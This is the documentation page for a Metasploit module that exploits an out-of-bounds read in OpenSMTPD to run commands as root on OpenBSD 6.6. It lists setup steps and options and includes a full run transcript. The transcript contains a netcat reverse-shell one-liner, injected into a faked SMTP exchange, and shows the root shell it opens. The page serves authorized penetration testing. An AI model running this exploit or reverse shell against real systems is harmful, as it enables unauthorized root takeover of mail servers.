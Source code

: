 ## Vulnerable Application

### Description

This module exploits an out-of-bounds read of an attacker-controlled
string in OpenSMTPD's MTA implementation to execute a command as the
root user.

### Setup

1. Download [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system

### Targets

```
Id  Name
--  ----
0   OpenSMTPD >= commit a8e222352f
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**SESSION**

Set this to a valid session ID on an OpenBSD target.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf5 > use exploit/unix/local/opensmtpd_oob_read_lpe
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > show missing

Module options (exploit/unix/local/opensmtpd_oob_read_lpe):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > set session -1
session => -1
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > run

[+] mkfifo /tmp/fspapws; nc 172.16.249.1 4444 0</tmp/fspapws | /bin/sh >/tmp/fspapws 2>&1; rm /tmp/fspapws
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Started service listener on 0.0.0.0:25
[*] Executing local sendmail(8) command: /usr/sbin/sendmail 'xwtyonkmmzgtxmmsulkidmpmoh@[172.16.249.1]' < /dev/null && echo true
[*] Client 172.16.249.137:41899 connected
[*] Faking SMTP server and sending exploit
[*] Sending: 220
[*] Expecting: /EHLO /
[+] Received: EHLO
[*] Sending: 250
[*] Expecting: /MAIL FROM:<[^>]/
[+] Received: foo.localdomain
MAIL FROM:<w
[*] Sending: 553-
553

dispatcher: local_mail
type: mda
mda-user: root
mda-exec: mkfifo /tmp/wcwnvhv; nc 172.16.249.1 4444 0</tmp/wcwnvhv | /bin/sh >/tmp/wcwnvhv 2>&1; rm /tmp/wcwnvhv; exit 0

[*] Disconnecting client 172.16.249.137:41899
[*] Command shell session 1 opened (172.16.249.1:4444 -> 172.16.249.137:20394) at 2020-02-27 03:06:43 -0600
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.localdomain 6.6 GENERIC#353 amd64
```

